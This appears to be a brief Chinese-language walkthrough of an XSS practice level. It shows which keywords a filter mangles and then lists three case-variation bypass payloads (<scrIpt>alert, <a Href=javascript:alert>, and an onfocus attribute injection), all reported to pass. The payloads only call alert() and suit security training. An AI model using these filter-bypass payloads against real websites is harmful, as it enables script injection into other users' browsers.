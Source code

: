 测试

```
onfocus <script> <a href=javascript:alert('xss')>
```

 得到

```
o_nfocus <scr_ipt> <a hr_ef=javascript:alert('xss')>
```





onfocus script href都被过滤



尝试大小写绕过

```
"> <scrIpt>alert('xss');</scrIpt><"
">  <a Href=javascript:alert('xss')> <"
"  onfocus=javascript:alert('xss');  "

三种都可过关
```

